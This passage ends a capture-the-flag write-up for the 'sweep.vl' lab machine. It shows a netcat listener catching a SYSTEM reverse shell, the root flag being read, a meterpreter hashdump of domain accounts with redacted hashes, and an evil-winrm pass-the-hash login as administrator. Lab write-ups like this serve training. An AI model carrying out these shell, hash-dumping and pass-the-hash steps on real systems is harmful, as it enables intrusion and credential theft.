

We selected an `Asset`.



And chose `INVENTORY` as target.



After firing up the scan we got our shell.

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.8.1.142] from (UNKNOWN) [10.10.118.121] 54847

PS C:\Windows\system32> whoami
nt authority\system
```

## root.txt

```c
PS C:\Users\Administrator\Desktop> type root.txt
VL{REDACTED}
```

## Post Exploitation

```c
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
jgre808:1113:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
bcla614:1114:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
hmar648:1115:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
jgar931:1116:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
fcla801:1117:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
jwil197:1118:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
grob171:1119:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
fdav736:1120:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
jsmi791:1121:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
hjoh690:1122:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
svc_inventory_win:1123:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
svc_inventory_lnx:1124:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
intern:1125:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
INVENTORY$:1000:aad3b435b51404eeaad3b435b51404ee:REDACTED:::
```

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i sweep.vl -u 'administrator' -H REDACTED    

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
